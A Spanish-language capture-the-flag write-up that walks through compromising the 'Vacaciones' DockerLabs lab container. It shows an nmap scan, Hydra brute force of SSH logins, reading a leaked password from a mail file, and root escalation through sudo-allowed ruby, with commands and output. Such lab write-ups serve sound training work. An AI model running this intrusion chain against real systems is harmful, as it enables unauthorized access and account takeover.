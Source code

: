 # Vacaciones DockerLabs (Very Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip vacaciones.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh vacaciones.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-07 10:32 EST
Nmap scan report for 172.17.0.2
Host is up (0.000027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.27 seconds
```

Si entramos en la pagina y la inspeccionamos veremos lo siguiente:

```html
<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
```

Vemos que hemos descubierto `2` posibles usuarios, por lo que vamos a crear un diccionario y tirarles fuerza bruta:

> users.txt

```
camilo
juan
```

```shell
hydra -L users.txt -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-07 10:37:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 28688798 login tries (l:2/p:14344399), ~448263 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Por lo que vemos sacamos unas credenciales, por lo que nos conectaremos por `ssh` de la siguiente forma:

```shell
ssh camilo@<IP>
```

Metemos como contraseña `password1`, y veremos que estamos dentro.

## Escalate user juan

Si investigamos un poco veremos en la siguiente ruta un fichero interesante llamado `correo.txt`:

```shell
cd /var/mail/camilo/
cat correo.txt
```

Info:

```
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Por lo que vemos parece ser la contraseña del usuario `juan`, por lo que haremos lo siguiente:

```shell
su juan
```

Metemos como contraseña `2k84dicb` y veremos que somos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for juan on 3b23914bfc47:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 3b23914bfc47:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Vemos que podremos ejecutar el binario `ruby` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo ruby -e 'exec "/bin/bash"'
```

Info:

```
root@3b23914bfc47:/var/mail/camilo# whoami
root
```

Y con esto seremos `root`, por lo que habremos terminado la maquina.
